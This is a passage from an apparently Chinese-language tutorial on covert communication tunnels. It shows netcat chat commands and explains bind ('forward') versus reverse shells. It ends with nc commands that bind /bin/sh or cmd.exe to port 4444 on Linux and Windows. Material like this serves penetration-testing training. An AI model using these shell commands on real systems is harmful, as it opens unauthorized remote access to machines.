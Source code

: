 ![](./img/隐藏通信隧道基础知识/35.png)

在客户端对服务端的6666端口进行连接，就可以开始聊天了：

```
nc -nv 192.168.2.12 6666
```

![](./img/隐藏通信隧道基础知识/36.png)

（8）获取正向shell

shell分为两种，一种是正向shell，另一种就是反向shell。

正向就是你去连接目标，反向就是目标来连接你。

在客户端输入命令，监听4444端口：

```
linux：
nc -lvp 4444 -e /bin/sh
windows：
nc.exe -lvp 4444 -e c:\windows\system32\cmd.exe
```